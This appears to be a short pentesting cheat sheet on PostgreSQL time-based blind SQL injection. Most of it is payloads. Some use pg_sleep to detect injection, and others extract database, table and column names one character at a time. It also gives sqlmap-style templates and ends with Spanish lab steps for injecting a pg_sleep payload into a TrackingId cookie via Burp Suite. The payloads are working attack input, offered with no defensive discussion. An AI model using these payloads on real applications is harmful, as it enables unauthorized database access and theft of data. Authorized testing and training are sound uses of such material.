

    

## PostgreSQL Time Based

#### Identify time based

```c
select 1 from pg_sleep(5)

;(select 1 from pg_sleep(5))

||(select 1 from pg_sleep(5))
```
#### Database dump time based

```c
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

#### Table dump time based

```c
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

#### columns dump time based

```c
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1

select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1

```

```c
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))

AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

1. Visite la página principal de la tienda y utilice Burp Suite para interceptar y modificar la solicitud que contiene la `TrackingId`cookie.
2. Modificar la `TrackingId`cookie, cambiándola por:
    
    `TrackingId=x'||pg_sleep(10)--`
3. Envíe la solicitud y observe que la aplicación tarda 10 segundos en responder.



